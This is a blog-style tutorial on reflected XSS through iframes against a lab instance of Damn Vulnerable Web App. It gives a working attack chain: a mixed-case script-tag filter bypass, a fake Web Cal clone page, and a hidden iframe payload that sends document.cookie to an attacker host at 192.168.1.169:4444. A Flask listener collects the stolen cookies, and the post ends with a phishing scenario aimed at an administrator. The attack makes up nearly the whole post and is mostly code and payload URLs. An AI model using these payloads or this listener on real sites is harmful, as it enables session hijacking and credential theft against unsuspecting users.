 ```yaml
---
layout: post
title: Reflected XSS Through iFrame
categories:
- reflected xss
- web hacking
---
```


Imagine we are targeting an instance of __Damn Vulnerable Web App__ on an enterprise network. In this totally realistic scenario, there is also an instance of Web Cal running on the same network. The Web Cal instance is vulnerable to clickjacking. To gain access to DVWA, we can create a malicious web page that masquerades as the Web Cal instance using an iframe. We then could place a second iframe into the page that executes a reflected XSS attack against the target DVWA instance on page load. We could then use social engineering to trick a user into navigating to our fake Web Cal page, and by doing so steal the user's DVWA session. 

On my lab network, the attacking machine is located at 192.168.1.169. Both the DVWA instance and Web Cal are running on a shared server with an IP of 192.168.1.30. When you see these addresses in the tutorial, remember to substitute them for your own.

#Step 0

We start out by "cloning" the Web Cal instance using an iframe. Our index page is set up in such a way that the iframe expands to take up the entire width of the screen, no matter what device it is loaded on.

{% highlight html %}
{% raw %} 

<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
    <head>
        <title>Web Cal</title>
        <style type="text/css">
            body, html
            {
                margin: 0; padding: 0; height: 100%; overflow: hidden;
            }

            #content
            {
                position:absolute; left: 0; right: 0; bottom: 0; top: 0px; 
            }
        </style>
    </head>
    <body>
        <div id="content">
            <iframe width="100%" height="100%" frameborder="0" src="http://192.168.1.30/webcal/"></iframe>
        </div>

    </body>
</html>

{% endraw %} 
{% endhighlight %}

When we load the page, it looks exactly like the Web Cal instance.

#Step 1

Once we have "cloned" the Web Cal instance, it's time to find a reflected XSS vulnerability in the target site. For this example we will be using the Reflected XSS page on __Damn Vulnerable Web App__, with difficulty set to medium.

We start out by attempting to pass in a script tag directly through the URL using the __name__ parameter.

{% raw %} 
	http://192.168.1.30/dvwa/vulnerabilities/xss_r/?name=<script>alert('xss');</script>#
{% endraw %} 

This request seems to fail, and looking at the source code reveals some kind of filtering.

![oops]({{ site.baseurl }}images/iframes/xss-fail.png)

Filters can sometimes be evaded by randomizing the capitilization of the script tags, as shown below.

{% raw %} 
	http://192.168.1.30/dvwa/vulnerabilities/xss_r/?name=<sCriPt>alert('xss');</sCriPt>#
{% endraw %} 

Success - the filter evasion works.

![oops]({{ site.baseurl }}images/iframes/xss-success.png)

#Step 2

Now that we have identified a means to reflect scripts off of the page, let's try to execute a script that writes an image tag to the DOM. For our image, let's use this glorious picture of John Cena.

![john cena](http://www.wwe.com/f/styles/wwe_large/public/rd-talent/Bio/John_Cena_bio.png)

The following url should successfully load the image. We can't just straight up drop an image tag into the page, because doing so would not allow us to include the user's session cookie in the image tag. Instead we write the image tag to the DOM using a script tag.

{% raw %} 
	http://192.168.1.30/dvwa/vulnerabilities/xss_r/?name=<ScrIpt>document.write('<img src=\"http://www.wwe.com/f/styles/wwe_large/public/rd-talent/Bio/John_Cena_bio.png\"></img>')</sCriPt>#

{% endraw %} 

#Step 3

Now that we can write images to the page, let's do it from an iframe. We take the URL we created in step 2 and use it as the frame's source. We place the iframe in the index.html file we created earlier.

{% highlight html %}
{% raw %} 

<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
    <head>
        <title>Test Layout</title>
        <style type="text/css">
            body, html
            {
                margin: 0; padding: 0; height: 100%; overflow: hidden;
            }

            #content
            {
                position:absolute; left: 0; right: 0; bottom: 0; top: 0px; 
            }
        </style>
    </head>
    <body>
        <div id="content">
            <iframe width="100%" height="100%" frameborder="0" src="http://192.168.1.30/webcal/"></iframe>
        </div>

	<iframe style="position:absolute;top:99px" src="http://192.168.1.30/dvwa/vulnerabilities/xss_r/?name=<ScrIpt>document.write('<img src=\"http://www.wwe.com/f/styles/wwe_large/public/rd-talent/Bio/John_Cena_bio.png\"></img>')</sCriPt>#"></iframe>


    </body>
</html>

{% endraw %} 
{% endhighlight %}

We then try to access our index.html page. If we see John Cena inside the iframe, we know the image tag injection worked.

![oops]({{ site.baseurl }}images/iframes/oops.png)

Uh oh! Check out the results above. Simply escaping the double quotes for our image tag's source does not seem to be working. 

To fix this problem, we need to use html entities for the quotes in the image tag. We modify the iframe we added to index.html so that it look like this:

{% highlight html %}
{% raw %} 

	<iframe style="position:absolute;top:99px" src="http://192.168.1.30/dvwa/vulnerabilities/xss_r/?name=<ScrIpt>document.write('<img src=&quot;http://www.wwe.com/f/styles/wwe_large/public/rd-talent/Bio/John_Cena_bio.png&quot;></img>')</sCriPt>#"></iframe>

{% endraw %} 
{% endhighlight %}

Success! John Cena has entered the iframe.

![oops]({{ site.baseurl }}images/iframes/cena-in-frame.png)

#Step 4

Now for the finishing touches of our attack. Let's get rid of John Cena and aim our image's src to a a nonexistent image tag on our server. We'll attempt to set the filename to the victim's cookie. If all goes according to plan, the user's cookie should show up in our httpd error log.

{% highlight html %}
{% raw %} 

	<iframe style="position:absolute;top:99px" src="http://192.168.1.30/dvwa/vulnerabilities/xss_r/?name=<ScrIpt>document.write('<img src=&quot;192.168.1.169:4444?c='+document.cookie+'&quot;></img>')</sCriPt>#"></iframe>

{% endraw %} 
{% endhighlight %}

Tailing /var/log/httpd/error.log while making a request to http://localhost/ reveals that something isn't quite right. No record of our attempt to access the invalid image file shows up in our logs, which tells us that the request never happened in the first place.

![oops]({{ site.baseurl }}images/iframes/log-nope.png)

To learn why, we look at the source code of our loaded iframe. Notice how the image that we tried to write to the server does not contain any cookies. Instead, we see the following value for the tag's source attribute.

![oops]({{ site.baseurl }}images/iframes/concat-fail.png)

The problem is that since the image tag is being passed in through the URL, our plus signs are being converted into whitespace. This prevents us from easily using JavaScript string concatenation. The workaround is to use array joins instead.

{% highlight html %}
{% raw %} 

	<iframe style="position:absolute;top:99px" src="http://192.168.1.30/dvwa/vulnerabilities/xss_r/?name=<ScrIpt>document.write(['<img src=&quot;http://192.168.1.169/',document.cookie,'.png&quot;></img>'].join(''))</sCriPt>#"></iframe>

{% endraw %} 
{% endhighlight %}

Tailing our log file while reloading the page once again, we see that the image request has gone through successfully. 

![oops]({{ site.baseurl }}images/iframes/log-win.png)

Awesome. Now all we have to do is modify the image url slightly so that it passes the victim's cookies as a GET parameter.


{% highlight html %}
{% raw %} 

	<iframe style="position:absolute;top:99px" src="http://192.168.1.30/dvwa/vulnerabilities/xss_r/?name=<ScrIpt>document.write(['<img src=&quot;http://192.168.1.169:4444/?c=',document.cookie,'&quot;></img>'].join(''))</sCriPt>#"></iframe>

{% endraw %} 
{% endhighlight %}

We then use a quick Python script to set up a listener for the GET request.

{% highlight python %}
	
	from flask import Flask, request, render_template, abort
	from flask.ext.cors import CORS
	
	app = Flask(__name__)
	app.debug = True
	
	CORS(app)
	
	@app.route('/')
	def index():
	
	    cookies = request.args.get('c')
	    with open('cookies.txt', 'a') as fd:
	        print
	        print
	        print
	        print cookies
	        fd.write(cookies)
	    return abort(404)
	
	app.run(host='0.0.0.0', port=4444)

{% endhighlight %}


After reloading the page, we get the following output.


![oops]({{ site.baseurl }}images/iframes/cookies-stolen.png)

#Step 5

The mechanics behind the session hijacking attack are tested and complete. Now we just modify the iframe we added to our index.html page such that it is lifted completely outside of the visible portion of the page. By doing this, user is completely unaware that they've visited DVWA, let alone had their creds stolen.

{% highlight html %} 
{% raw %} 

	<iframe style="position:absolute;top:-9999px" src="http://192.168.1.30/dvwa/vulnerabilities/xss_r/?name=<ScrIpt>document.write(['<img src=&quot;http://192.168.1.169:4444/?c=',document.cookie,'&quot;></img>'].join(''))</sCriPt>#"></iframe>

{% endraw %} 
{% endhighlight %}

Here's a quick video demonstrating how the attack could play out. In the video, an email is sent to an administrator complaining that the Wiki page is down. The administrator opens the email, clicks the link, and navigates to what appears to be the Wiki page. The administrator's session is stolen, and the administrator navigates away from the page believing that the ticket is a false alarm.

<iframe width="560" height="315" src="https://www.youtube.com/embed/ZlV3fb8bnus" frameborder="0" allowfullscreen></iframe>

